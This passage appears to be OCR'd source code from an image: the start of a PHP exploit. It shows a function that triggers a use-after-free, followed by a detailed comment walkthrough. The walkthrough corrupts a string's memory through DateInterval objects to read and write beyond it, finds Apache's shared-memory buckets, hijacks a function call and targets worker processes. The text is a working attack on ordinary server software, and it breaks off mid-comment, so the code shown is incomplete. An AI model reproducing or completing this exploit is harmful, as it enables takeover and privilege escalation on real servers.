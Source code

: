 ```
error_reporting(E_ALL);

# Starts the exploit by triggering the UAF.

function real()

{

global $y;

$y = [new Z()];

json_encode([0 => &$y]);

}

# In order to read/write what comes after in memory, we need to UAF a string so

# that we can control its size and make in-place edition.

# An easy way to do that is to replace the string by a timelib_rel_time

# structure of which the first bytes can be reached by the (y, m, d, h, i, s)

# properties of the DateInterval object.

# Steps:

# - Create a base object (Z)

# - Add string property (abc) so that sizeof(abc) = sizeof(timelib_rel_time)

# - Create DateInterval object ($place) meant to be unset and filled by another

# - Trigger the UAF by unsetting $y[0], which is still reachable using $this

# - Unset $place: at this point, if we create a new DateInterval object, it will

# replace $place in memory

# - Create a string ($holder) that fills $place’s timelib_rel_time structure

# - Allocate a new DateInterval object: its timelib_rel_time structure will

# end up in place of abc

# - Now we can control $this->abc’s zend_string structure entirely using

# y, m, d etc.

# - Increase abc’s size so that we can read/write memory that comes after it,

# especially the shared memory block

# - Find out all_buckets’ position by finding a memory region that matches the

# mutex->meth structure

# - Compute the bucket index required to reach the SHM and get an arbitrary

# function call

# - Scan ap_scoreboard_image->parent[] to find workers’ PID and replace the
```